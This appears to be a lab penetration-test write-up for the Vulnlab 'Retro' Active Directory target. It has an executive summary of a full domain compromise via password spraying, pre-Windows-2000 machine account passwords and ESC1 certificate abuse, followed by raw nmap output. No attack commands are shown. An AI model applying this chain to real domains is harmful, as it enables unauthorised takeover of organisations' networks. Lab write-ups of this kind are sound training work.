


**Target:**   `10.129.234.44`
**Domain:**   `retro.vl`
**Date:**     November 2026
**Platform:** Vulnlab
## Executive Summary
This report documents the full compromise of the retro.vl domain. An enabled guest account exposed a non-default `Trainees` share where all trainee accounts shared a single weak password, which a spray confirmed on the `trainee` account. A second share revealed a pre-Windows-2000 computer object whose predictable password was recovered with netexec's `pre2k` module, yielding a machine-account TGT. Certipy enumeration found the `RetroClients` template vulnerable to ESC1 (enrollee-supplies-subject, Client Authentication EKU, no manager approval), so the `BANKING$` machine account requested a certificate impersonating the Administrator UPN. With PKINIT broken, the certificate was used over an authenticated LDAP shell to force-reset the Administrator password and take full control of the domain.

## Recon

### Nmap Scan
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ cat Retro.txt 
# Nmap 7.98 scan initiated Tue Nov 17 00:41:27 2026 as: /usr/lib/nmap/nmap -p- -Pn -sC -sV -A -T4 -vv -oN Retro.txt 10.129.234.44
Nmap scan report for 10.129.234.44
Host is up, received user-set (0.064s latency).
Scanned at 2026-11-17 00:41:28 GMT for 191s
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-11-17 00:44:48Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: retro.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.retro.vl
| Issuer: commonName=retro-DC-CA/domainComponent=retro
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-10-02T10:33:09
| Not valid after:  2025-10-02T10:33:09
| MD5:     0570 85e4 2e0b 442c 16c0 d258 3acb 1019
| SHA-1:   0b6c b037 2581 5555 b186 8ca2 35e7 21db 2c8d 56d6
| SHA-256: d49e 84da b23d bdf2 6e7e 1936 4a50 a3c8 3957 98fd 43af d39a 345d b253 c5f9 81c6
| -----BEGIN CERTIFICATE-----
| MIIHDjCCBPagAwIBAgITJgAAAAfu81FFx2Gm5gAAAAAABzANBgkqhkiG9w0BAQsF
| ADBBMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVyZXRybzEU
| MBIGA1UEAxMLcmV0cm8tREMtQ0EwHhcNMjQxMDAyMTAzMzA5WhcNMjUxMDAyMTAz
| MzA5WjAWMRQwEgYDVQQDEwtEQy5yZXRyby52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAKQgOozob26wVFG9KB4eARJjNsNP1XseWS0yc6P1Ukd/oWY7
| rAaiie6nocDLzf733wGlHm51lSLASLn+PyvnWF74oAVUp8e8ifWM4P9gu9dgTyB3
| OV9B0VpWNgiG2xzj4mcFaQchRie/BTqQnLcu+E6oyjY/tXe1JYl+oqR5fcc2Sl0q
| kko2zgT5MDQdiL1wmXthsJnPs60qtNyh1B5BrH0AcIyZdA/Fy+2mu2IEjPy/Blk6
| p5JOqxdi2UI8d4dzqkiMYz/TRJnHOU7dc960TfQy31m07jfFEftHlgG5qAR508R9
| cjjWPLQQhb7AGMQygxuqSY86YtWVtiPxb/36/cECAwEAAaOCAygwggMkMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFIGEF7g9bqbrv9UMHHVtFd3d
| 41WLMB8GA1UdIwQYMBaAFDg6yqfPu6RkQ20kT5QJ8b3pa05eMIHBBgNVHR8Egbkw
| gbYwgbOggbCgga2GgapsZGFwOi8vL0NOPXJldHJvLURDLUNBLENOPURDLENOPUNE
| UCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25m
| aWd1cmF0aW9uLERDPXJldHJvLERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxp
| c3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBugYIKwYB
| BQUHAQEEga0wgaowgacGCCsGAQUFBzAChoGabGRhcDovLy9DTj1yZXRyby1EQy1D
| QSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMs
| Q049Q29uZmlndXJhdGlvbixEQz1yZXRybyxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA3BgNVHREEMDAu
| oB8GCSsGAQQBgjcZAaASBBDIu/wxosKXRLhMW5e5vacqggtEQy5yZXRyby52bDBO
| BgkrBgEEAYI3GQIEQTA/oD0GCisGAQQBgjcZAgGgLwQtUy0xLTUtMjEtMjk4MzU0
| Nzc1NS02OTgyNjAxMzYtNDI4MzkxODE3Mi0xMDAwMA0GCSqGSIb3DQEBCwUAA4IC
| AQCQde+3KP/nqS5VndMf25ysd2szoNnXgG5Z2ftQykp/Ewlh970Hh2DsXr8tZyBW
| mjRxTEwZf9Vv2kX4tEWt5ZEsX0qt1x8pd4bzmkPNRyW1HqPQgwUgz6Dw+U7ocAOi
| lvDIcJt10Tl141s1E1ZuOJR/Vzj3bRwNN3NWWmvjQRsxUZO5P9BX9hHXVd63HDzb
| 1CFrA8BW7JD/pJTLTOsDMgAaJGKCQPrqch3N4et8QZ86q4OkLts3dwT1+OHOX+tm
| dVdtHmtxl2I1M40V3tR8tBZiDfQmaGIXRPx06jQ9I0XrfjE2j4MX+ctmdi9WwTCJ
| jIaHY3lHGvf89i4v1mMea/CSTjF9asNAb9um8Mg4JOz+Ep7AmyNGZuT2SkDTl0je
| RAYc/XTbqCS7x1YzSsz9y8M+Ee0/88xsFKAnonFswb0k66V/kFxe3jPkIFPkPf7p
| gf10rMMlrl1Dn7fachEYqpH6zmnOKZFpQ5XrBP1WgFfbkZCsfAkIRvxl3ko1Ewsv
| syYwTG9Ty5uqlGHRy1MrBAwfq90Uh7BHvwVSe92cRNjSPh/A12bH9cbdjMkJBWIl
| OkrVajdKm88jGH+oe19lEKRkmllRF3tNeBq/I6uXNHSdz9nGgoOBUFfXp0Flsb6w
| i8J0nAjrzqI9PcOutQ0AyVTOHYk0mXUEOVg2h9fz8T5GVQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2026-11-17T00:46:21+00:00; +1m43s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: retro.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.retro.vl
| Issuer: commonName=retro-DC-CA/domainComponent=retro
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-10-02T10:33:09
| Not valid after:  2025-10-02T10:33:09
| MD5:     0570 85e4 2e0b 442c 16c0 d258 3acb 1019
| SHA-1:   0b6c b037 2581 5555 b186 8ca2 35e7 21db 2c8d 56d6
| SHA-256: d49e 84da b23d bdf2 6e7e 1936 4a50 a3c8 3957 98fd 43af d39a 345d b253 c5f9 81c6
| -----BEGIN CERTIFICATE-----
| MIIHDjCCBPagAwIBAgITJgAAAAfu81FFx2Gm5gAAAAAABzANBgkqhkiG9w0BAQsF
| ADBBMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVyZXRybzEU
| MBIGA1UEAxMLcmV0cm8tREMtQ0EwHhcNMjQxMDAyMTAzMzA5WhcNMjUxMDAyMTAz
| MzA5WjAWMRQwEgYDVQQDEwtEQy5yZXRyby52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAKQgOozob26wVFG9KB4eARJjNsNP1XseWS0yc6P1Ukd/oWY7
| rAaiie6nocDLzf733wGlHm51lSLASLn+PyvnWF74oAVUp8e8ifWM4P9gu9dgTyB3
| OV9B0VpWNgiG2xzj4mcFaQchRie/BTqQnLcu+E6oyjY/tXe1JYl+oqR5fcc2Sl0q
| kko2zgT5MDQdiL1wmXthsJnPs60qtNyh1B5BrH0AcIyZdA/Fy+2mu2IEjPy/Blk6
| p5JOqxdi2UI8d4dzqkiMYz/TRJnHOU7dc960TfQy31m07jfFEftHlgG5qAR508R9
| cjjWPLQQhb7AGMQygxuqSY86YtWVtiPxb/36/cECAwEAAaOCAygwggMkMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFIGEF7g9bqbrv9UMHHVtFd3d
| 41WLMB8GA1UdIwQYMBaAFDg6yqfPu6RkQ20kT5QJ8b3pa05eMIHBBgNVHR8Egbkw
| gbYwgbOggbCgga2GgapsZGFwOi8vL0NOPXJldHJvLURDLUNBLENOPURDLENOPUNE
| UCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25m
| aWd1cmF0aW9uLERDPXJldHJvLERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxp
| c3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBugYIKwYB
| BQUHAQEEga0wgaowgacGCCsGAQUFBzAChoGabGRhcDovLy9DTj1yZXRyby1EQy1D
| QSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMs
| Q049Q29uZmlndXJhdGlvbixEQz1yZXRybyxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA3BgNVHREEMDAu
| oB8GCSsGAQQBgjcZAaASBBDIu/wxosKXRLhMW5e5vacqggtEQy5yZXRyby52bDBO
| BgkrBgEEAYI3GQIEQTA/oD0GCisGAQQBgjcZAgGgLwQtUy0xLTUtMjEtMjk4MzU0
| Nzc1NS02OTgyNjAxMzYtNDI4MzkxODE3Mi0xMDAwMA0GCSqGSIb3DQEBCwUAA4IC
| AQCQde+3KP/nqS5VndMf25ysd2szoNnXgG5Z2ftQykp/Ewlh970Hh2DsXr8tZyBW
| mjRxTEwZf9Vv2kX4tEWt5ZEsX0qt1x8pd4bzmkPNRyW1HqPQgwUgz6Dw+U7ocAOi
| lvDIcJt10Tl141s1E1ZuOJR/Vzj3bRwNN3NWWmvjQRsxUZO5P9BX9hHXVd63HDzb
| 1CFrA8BW7JD/pJTLTOsDMgAaJGKCQPrqch3N4et8QZ86q4OkLts3dwT1+OHOX+tm
| dVdtHmtxl2I1M40V3tR8tBZiDfQmaGIXRPx06jQ9I0XrfjE2j4MX+ctmdi9WwTCJ
| jIaHY3lHGvf89i4v1mMea/CSTjF9asNAb9um8Mg4JOz+Ep7AmyNGZuT2SkDTl0je
| RAYc/XTbqCS7x1YzSsz9y8M+Ee0/88xsFKAnonFswb0k66V/kFxe3jPkIFPkPf7p
| gf10rMMlrl1Dn7fachEYqpH6zmnOKZFpQ5XrBP1WgFfbkZCsfAkIRvxl3ko1Ewsv
| syYwTG9Ty5uqlGHRy1MrBAwfq90Uh7BHvwVSe92cRNjSPh/A12bH9cbdjMkJBWIl
| OkrVajdKm88jGH+oe19lEKRkmllRF3tNeBq/I6uXNHSdz9nGgoOBUFfXp0Flsb6w
| i8J0nAjrzqI9PcOutQ0AyVTOHYk0mXUEOVg2h9fz8T5GVQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2026-11-17T00:46:21+00:00; +1m43s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: retro.vl, Site: Default-First-Site-Name)
|_ssl-date: 2026-11-17T00:46:21+00:00; +1m43s from scanner time.
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.retro.vl
| Issuer: commonName=retro-DC-CA/domainComponent=retro
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-10-02T10:33:09
| Not valid after:  2025-10-02T10:33:09
| MD5:     0570 85e4 2e0b 442c 16c0 d258 3acb 1019
| SHA-1:   0b6c b037 2581 5555 b186 8ca2 35e7 21db 2c8d 56d6
| SHA-256: d49e 84da b23d bdf2 6e7e 1936 4a50 a3c8 3957 98fd 43af d39a 345d b253 c5f9 81c6
| -----BEGIN CERTIFICATE-----
| MIIHDjCCBPagAwIBAgITJgAAAAfu81FFx2Gm5gAAAAAABzANBgkqhkiG9w0BAQsF
| ADBBMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVyZXRybzEU
| MBIGA1UEAxMLcmV0cm8tREMtQ0EwHhcNMjQxMDAyMTAzMzA5WhcNMjUxMDAyMTAz
| MzA5WjAWMRQwEgYDVQQDEwtEQy5yZXRyby52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAKQgOozob26wVFG9KB4eARJjNsNP1XseWS0yc6P1Ukd/oWY7
| rAaiie6nocDLzf733wGlHm51lSLASLn+PyvnWF74oAVUp8e8ifWM4P9gu9dgTyB3
| OV9B0VpWNgiG2xzj4mcFaQchRie/BTqQnLcu+E6oyjY/tXe1JYl+oqR5fcc2Sl0q
| kko2zgT5MDQdiL1wmXthsJnPs60qtNyh1B5BrH0AcIyZdA/Fy+2mu2IEjPy/Blk6
| p5JOqxdi2UI8d4dzqkiMYz/TRJnHOU7dc960TfQy31m07jfFEftHlgG5qAR508R9
| cjjWPLQQhb7AGMQygxuqSY86YtWVtiPxb/36/cECAwEAAaOCAygwggMkMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFIGEF7g9bqbrv9UMHHVtFd3d
| 41WLMB8GA1UdIwQYMBaAFDg6yqfPu6RkQ20kT5QJ8b3pa05eMIHBBgNVHR8Egbkw
| gbYwgbOggbCgga2GgapsZGFwOi8vL0NOPXJldHJvLURDLUNBLENOPURDLENOPUNE
| UCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25m
| aWd1cmF0aW9uLERDPXJldHJvLERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxp
| c3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBugYIKwYB
| BQUHAQEEga0wgaowgacGCCsGAQUFBzAChoGabGRhcDovLy9DTj1yZXRyby1EQy1D
| QSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMs
| Q049Q29uZmlndXJhdGlvbixEQz1yZXRybyxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA3BgNVHREEMDAu
| oB8GCSsGAQQBgjcZAaASBBDIu/wxosKXRLhMW5e5vacqggtEQy5yZXRyby52bDBO
| BgkrBgEEAYI3GQIEQTA/oD0GCisGAQQBgjcZAgGgLwQtUy0xLTUtMjEtMjk4MzU0
| Nzc1NS02OTgyNjAxMzYtNDI4MzkxODE3Mi0xMDAwMA0GCSqGSIb3DQEBCwUAA4IC
| AQCQde+3KP/nqS5VndMf25ysd2szoNnXgG5Z2ftQykp/Ewlh970Hh2DsXr8tZyBW
| mjRxTEwZf9Vv2kX4tEWt5ZEsX0qt1x8pd4bzmkPNRyW1HqPQgwUgz6Dw+U7ocAOi
| lvDIcJt10Tl141s1E1ZuOJR/Vzj3bRwNN3NWWmvjQRsxUZO5P9BX9hHXVd63HDzb
| 1CFrA8BW7JD/pJTLTOsDMgAaJGKCQPrqch3N4et8QZ86q4OkLts3dwT1+OHOX+tm
| dVdtHmtxl2I1M40V3tR8tBZiDfQmaGIXRPx06jQ9I0XrfjE2j4MX+ctmdi9WwTCJ
| jIaHY3lHGvf89i4v1mMea/CSTjF9asNAb9um8Mg4JOz+Ep7AmyNGZuT2SkDTl0je
| RAYc/XTbqCS7x1YzSsz9y8M+Ee0/88xsFKAnonFswb0k66V/kFxe3jPkIFPkPf7p
| gf10rMMlrl1Dn7fachEYqpH6zmnOKZFpQ5XrBP1WgFfbkZCsfAkIRvxl3ko1Ewsv
| syYwTG9Ty5uqlGHRy1MrBAwfq90Uh7BHvwVSe92cRNjSPh/A12bH9cbdjMkJBWIl
| OkrVajdKm88jGH+oe19lEKRkmllRF3tNeBq/I6uXNHSdz9nGgoOBUFfXp0Flsb6w
| i8J0nAjrzqI9PcOutQ0AyVTOHYk0mXUEOVg2h9fz8T5GVQ==
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: retro.vl, Site: Default-First-Site-Name)
|_ssl-date: 2026-11-17T00:46:21+00:00; +1m43s from scanner time.
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.retro.vl
| Issuer: commonName=retro-DC-CA/domainComponent=retro
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-10-02T10:33:09
| Not valid after:  2025-10-02T10:33:09
| MD5:     0570 85e4 2e0b 442c 16c0 d258 3acb 1019
| SHA-1:   0b6c b037 2581 5555 b186 8ca2 35e7 21db 2c8d 56d6
| SHA-256: d49e 84da b23d bdf2 6e7e 1936 4a50 a3c8 3957 98fd 43af d39a 345d b253 c5f9 81c6
| -----BEGIN CERTIFICATE-----
| MIIHDjCCBPagAwIBAgITJgAAAAfu81FFx2Gm5gAAAAAABzANBgkqhkiG9w0BAQsF
| ADBBMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVyZXRybzEU
| MBIGA1UEAxMLcmV0cm8tREMtQ0EwHhcNMjQxMDAyMTAzMzA5WhcNMjUxMDAyMTAz
| MzA5WjAWMRQwEgYDVQQDEwtEQy5yZXRyby52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAKQgOozob26wVFG9KB4eARJjNsNP1XseWS0yc6P1Ukd/oWY7
| rAaiie6nocDLzf733wGlHm51lSLASLn+PyvnWF74oAVUp8e8ifWM4P9gu9dgTyB3
| OV9B0VpWNgiG2xzj4mcFaQchRie/BTqQnLcu+E6oyjY/tXe1JYl+oqR5fcc2Sl0q
| kko2zgT5MDQdiL1wmXthsJnPs60qtNyh1B5BrH0AcIyZdA/Fy+2mu2IEjPy/Blk6
| p5JOqxdi2UI8d4dzqkiMYz/TRJnHOU7dc960TfQy31m07jfFEftHlgG5qAR508R9
| cjjWPLQQhb7AGMQygxuqSY86YtWVtiPxb/36/cECAwEAAaOCAygwggMkMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFIGEF7g9bqbrv9UMHHVtFd3d
| 41WLMB8GA1UdIwQYMBaAFDg6yqfPu6RkQ20kT5QJ8b3pa05eMIHBBgNVHR8Egbkw
| gbYwgbOggbCgga2GgapsZGFwOi8vL0NOPXJldHJvLURDLUNBLENOPURDLENOPUNE
| UCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25m
| aWd1cmF0aW9uLERDPXJldHJvLERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxp
| c3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBugYIKwYB
| BQUHAQEEga0wgaowgacGCCsGAQUFBzAChoGabGRhcDovLy9DTj1yZXRyby1EQy1D
| QSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMs
| Q049Q29uZmlndXJhdGlvbixEQz1yZXRybyxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA3BgNVHREEMDAu
| oB8GCSsGAQQBgjcZAaASBBDIu/wxosKXRLhMW5e5vacqggtEQy5yZXRyby52bDBO
| BgkrBgEEAYI3GQIEQTA/oD0GCisGAQQBgjcZAgGgLwQtUy0xLTUtMjEtMjk4MzU0
| Nzc1NS02OTgyNjAxMzYtNDI4MzkxODE3Mi0xMDAwMA0GCSqGSIb3DQEBCwUAA4IC
| AQCQde+3KP/nqS5VndMf25ysd2szoNnXgG5Z2ftQykp/Ewlh970Hh2DsXr8tZyBW
| mjRxTEwZf9Vv2kX4tEWt5ZEsX0qt1x8pd4bzmkPNRyW1HqPQgwUgz6Dw+U7ocAOi
| lvDIcJt10Tl141s1E1ZuOJR/Vzj3bRwNN3NWWmvjQRsxUZO5P9BX9hHXVd63HDzb
| 1CFrA8BW7JD/pJTLTOsDMgAaJGKCQPrqch3N4et8QZ86q4OkLts3dwT1+OHOX+tm
| dVdtHmtxl2I1M40V3tR8tBZiDfQmaGIXRPx06jQ9I0XrfjE2j4MX+ctmdi9WwTCJ
| jIaHY3lHGvf89i4v1mMea/CSTjF9asNAb9um8Mg4JOz+Ep7AmyNGZuT2SkDTl0je
| RAYc/XTbqCS7x1YzSsz9y8M+Ee0/88xsFKAnonFswb0k66V/kFxe3jPkIFPkPf7p
| gf10rMMlrl1Dn7fachEYqpH6zmnOKZFpQ5XrBP1WgFfbkZCsfAkIRvxl3ko1Ewsv
| syYwTG9Ty5uqlGHRy1MrBAwfq90Uh7BHvwVSe92cRNjSPh/A12bH9cbdjMkJBWIl
| OkrVajdKm88jGH+oe19lEKRkmllRF3tNeBq/I6uXNHSdz9nGgoOBUFfXp0Flsb6w
| i8J0nAjrzqI9PcOutQ0AyVTOHYk0mXUEOVg2h9fz8T5GVQ==
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
|_ssl-date: 2026-11-17T00:46:21+00:00; +1m43s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETRO
|   NetBIOS_Domain_Name: RETRO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: retro.vl
|   DNS_Computer_Name: DC.retro.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-17T00:45:41+00:00
| ssl-cert: Subject: commonName=DC.retro.vl
| Issuer: commonName=DC.retro.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-16T00:38:19
| Not valid after:  2027-05-18T00:38:19
| MD5:     587c 83d3 bb0b dec1 67e5 adc3 6558 d8c2
| SHA-1:   7ea2 16ca 3d93 c0c3 9107 ec90 9a4d 7ca3 b21c e4d5
| SHA-256: 50ac e3cc a99e fda8 b8e5 b7ab 95b1 e5c0 8bcf 034e 181d 8e47 9c30 3603 fc79 b21d
| -----BEGIN CERTIFICATE-----
| MIIC2jCCAcKgAwIBAgIQHWw3+BYqlZ1G8xAbOIkLTjANBgkqhkiG9w0BAQsFADAW
| MRQwEgYDVQQDEwtEQy5yZXRyby52bDAeFw0yNjExMTYwMDM4MTlaFw0yNzA1MTgw
| MDM4MTlaMBYxFDASBgNVBAMTC0RDLnJldHJvLnZsMIIBIjANBgkqhkiG9w0BAQEF
| AAOCAQ8AMIIBCgKCAQEAvki81oWGLC983yjsotixzO474aff0znWS5qc/7xlpyaQ
| 81x12HgoKINQ9wSFbd5SLLkeWbIKRp2zxTTlR0E7h0YDSEC6H3aTY39VHBNhd0Z7
| FaOiA8AVm+NWQkcBNLYO5ogIhLziQybeuImA+h0cu3Rt//fBqM+RoIjhpZziyK0Z
| YyC5PsmgbAs2dCztkxCTZdkPiq/HiPgo3oqs5LWE0ajdYzRn+arLYb5/UTI8/mFf
| DPYkFJWRlF3yq+WvXIwqSUxN7/A3GJHzuGLEExrSI8s1uw/9NQRt2ccFei0vRoFN
| TODTZEhTFcAZvVS+TjlNW0zeObVc2Qt4n9ErYJ4DKQIDAQABoyQwIjATBgNVHSUE
| DDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAImK
| bVqiIpXe1FAuWBl0d0EkPBgUkqAf5a1UE7CM2RTazIUFCZWI8urghMKR2Ln6cCcM
| g340AyzO09Y6HJc9nhVem6enBiNU2xIN54hGYC4Z/BJo348Smd5tHY1LKSWj2cvN
| DJdvYJq1HIpYiPwiGoPuuwJXPR04bH0ZpbSiOtGO7xtaSzLbWlEE2/FzPJcutiYK
| kqf/poZYxd4x+5Gw+u+8mnYuHwztm3qMCFblV3hoQA5N3z8jZXd74hnd9OXlXeVg
| dAQY868/1a8bCt9+AT3O7I5j7BtmGkXtWW8tNdtTt/GO2MRG5sQK130lVO2nm8oM
| 7i8FfLZe23TmncslE80=
|_-----END CERTIFICATE-----
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50693/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
50700/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64458/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64471/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64486/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
